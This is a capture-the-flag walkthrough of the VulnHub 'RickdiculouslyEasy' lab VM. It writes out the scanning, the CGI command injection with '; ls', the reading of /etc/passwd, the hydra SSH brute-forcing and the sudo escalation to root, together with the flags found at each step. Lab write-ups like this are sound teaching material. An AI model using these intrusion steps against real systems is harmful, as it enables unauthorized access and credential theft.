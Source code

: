 # VulnHub Walkthrough: Rickdiculously Easy

RickdiculouslyEasy Walkthrough

### Details
* Name: RickdiculouslyEasy ([VulnHub](https://www.vulnhub.com/entry/rickdiculouslyeasy-1,207/))
* Goal: Get 130 points worth of flags!

### Initial Network Scan
```bash
sudo netdiscover
```
From the network scan we find that the target IP is `192.168.1.53`.

### Network Scan
Now we look into doing a more indepth scan of the target machine to locate any open ports.

```bash
# Scan ports 0-65535
nmap -A -p0-65535 192.168.1.10
```

There were several interesting things that I received from the nmap results:
* **10 POINTS** (port 21): I noticed that the nmap scan found a file called "FLAG.txt" on the FTP server.
   ```bash
   ftp 192.168.1.53 -p 21

   > Name (192.168.1.53:me): anonymous
   > Password: anonymous
   > ls
   - FLAG.txt     pub/
   > get FLAG.txt
   > exit

   cat FLAG.txt
   > FLAG{Whoa this is unexpected} 
   ```
* **10 POINTS** (port 13337): I noticed in the nmap output, that on port `13337` there is a flag: *FLAG:{TheyFoundMyBackDoorMorty}*
* There are 2 HTTP ports: `80` and `9090` - Note: Checkout later
* There are 2 SSH ports: `22` and `22222` - Note: Checkout later

As mentioned above, I noticed within the nmap scan, there are 2 HTTP ports open (`80` & `9090`), so I decided to run a more in-depth nmap scan to enumerate HTTP.

```bash
# Scan all ports, enumerate HTTP, etc.
sudo nmap -sC -sV -A -O -p- -T4 -script http-enum 192.168.1.53
```

Results
* Port `80`: `/robots.txt` | `/icons` | `/passwords`
    * **10 POINTS**: I found a flag when visiting `http://192.168.1.53:80/passwords` : *FLAG{Yeah d- just don't do it.}*
    * Within the `/passwords` directory, I also found a html file with a password: *winter*
* Port `9090`: `/blog/`
    * **10 POINTS**: When visiting `http://192.168.1.53:9090`, there was a password on the frontpage: *FLAG {There is no Zeus, in your face!}*

### HTTP directory enumeration

Before I start exploring the website, I want to run a gobuster, nikto, and dirb scan to see if there are any hidden directories.
```bash
# Gobuster scan: Big wordlist
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -e -t 20 -u http://192.168.1.53

# Nikto scan
nikto -h http://192.168.1.53

# dirb scan
dirb http://192.168.1.53
```

---------------------------

Once checking the robots.txt file, I found that it mentions */cgi-bin/tracertool.cgi*. Once visiting the page, I then found
that I could execute commands, just as long as I insert `;` at the front.

- To test it, I first ran: `; ls`, which displayed the 2 files shown in `robots.txt`
- Next I tried `cat /etc/passwd`, which simply displayed an ASCII image of a cat. So that means the cat command is fried.
- Alternatively, I tried using `tail /etc/passwd`, which worked fine.
  
The output of running `tail /etc/passwd` on the `http://192.168.132.53/cgi-bin/tracertool.cgi` page is:
```
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
abrt:x:173:173::/etc/abrt:/sbin/nologin
cockpit-ws:x:996:994:User for cockpit-ws:/:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
chrony:x:995:993::/var/lib/chrony:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
RickSanchez:x:1000:1000::/home/RickSanchez:/bin/bash
Morty:x:1001:1001::/home/Morty:/bin/bash
Summer:x:1002:1002::/home/Summer:/bin/bash
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
```

From here we see that there are a couple of users with a `/bin/bash` access:
- `root` | `RickSanchez` | `Morty` | `Summer`

From here I decided to try the password I found earlier `winter`:
* It didn't work with port `22`, but it did with port `22222`:
    ```bash
    ssh Summer@localhost.localdomain -p 22222
    ```

--------------------

## Summer

Once logged into to Summer, I ran `ls` and immediately found a flag.
**10 POINTS**
```bash
tail FLAG.txt

> FLAG{Get off the high road Summer!}
```

-----------------------

I then explored the user directories.

I began by looking in `Morty`'s directory, which there are 2 files: `journal.txt.zip` & `Safe_Password.jpg`.

I figured the *.jpg* would be a good place to start. So in order to use my tools, I first need to gain access to the file.

So what I did is I started up a python server so I could access the files on the machine:
```bash
python3 -m http.server
```

From there I was able to access/download the files directly onto my machine.

When I tried using exiftool to check if there was any useful information in there I only really saw:
```text
Warning        : [minor] Skipped unknown 59 bytes after JPEG APP13 segment
```

After seeing this I simply assumed there were parts within the image that exiftool was unable to interpret as being part of the
image. So then I tried to print the contents of the picture via the command line using `less`:
```bash
less Safe_Password.jpg
```

Towards the top of the file of the file, I saw a message:
```text
The Safe Password: File: /home/Morty/journal.txt.zip. Password: Meeseek
```

**20 POINTS** I then figured that I could then use it to extract the contents of `journal.txt.zip` since it was encrypted with a password.
Using the password `Meeseek` worked and returned a file called `journal.txt`, which inside it said:
```text
FLAG: {131333} 
```

--------------------------------------------

**20 POINTS** I looked in `RickSanchez`'s profile, and found a file in `RICKS_SAFE` called `safe`. I tried to execute it but you need *sudo*
priveleges. I then tried to copy it to a temporary directory to see if anything would change:
```bash
mktemp -d
> /tmp/tmp.7vJ4VBEnFZ

cp safe /tmp/tmp.7vJ4VBEnFZ
./safe
> Past Rick to present Rick, tell future Rick to use GOD DAMN COMMAND LINE AAAAAAHHHHAHAHAGGGUMENTS!

./safe 131333
> decrypt:     FLAG{AND Awwwaaaaayyyy we Go!}
> Ricks password hints:
> 1 uppercase character
> 1 digit
> One of the words in my old bands name. 
```

So after a bit of googling we find that rick's old bands name is *the Flesh Curtains*

----------------------------------------

I then used this to generate a list of all of the passwords:
* First Condition: 1 Uppercase character: [A-Z] ===> 27 Possible Characters
* Second Condition: 1 digit: [0-9] ===> 10 Possible digits
* 1 of 2 words: "Flesh" | "Curtains" ===> 2 Possible words

27 * 10 * 2 = 540 total possible passwords

```bash
hydra -l RickSanchez -P password_list.txt ssh://192.168.1.53:22222 -t 6

> [22222][ssh] host: 192.168.1.53    login: RickSanchez     password: P7Curtains
```

Once I got the password I then tried to ssh into this user's account
```bash
ssh RickSanchez@192.168.1.53 -p 22222
```

I was going to try and run the command below, but then instead decided to run `id` instead:
```bash
find / -perm -4000 -type f -ls 2>/dev/null
```

When  running `id`, I didn't notice anything in specific. I though `10(wheel)` looked interesting because of the note on the `./safe`,
which mentioned `sudo is wheely useful`. I tried running `wheel sudo`, which didn't do anything, then tried `sudo wheel`, which 
returned an error that `wheel didn't exist` or something like that.  This is when I then realized that I possibly had straight up
sudo access.

**30 POINTS** Finally, I ran the following command to gain *root* access:
```bash
sudo -i

$ less FLAG.txt
> FLAG: {Ionic Defibrillator} 
```

This totals **120 points**. I am missing 10 points and will need to find them later, but now thats it.
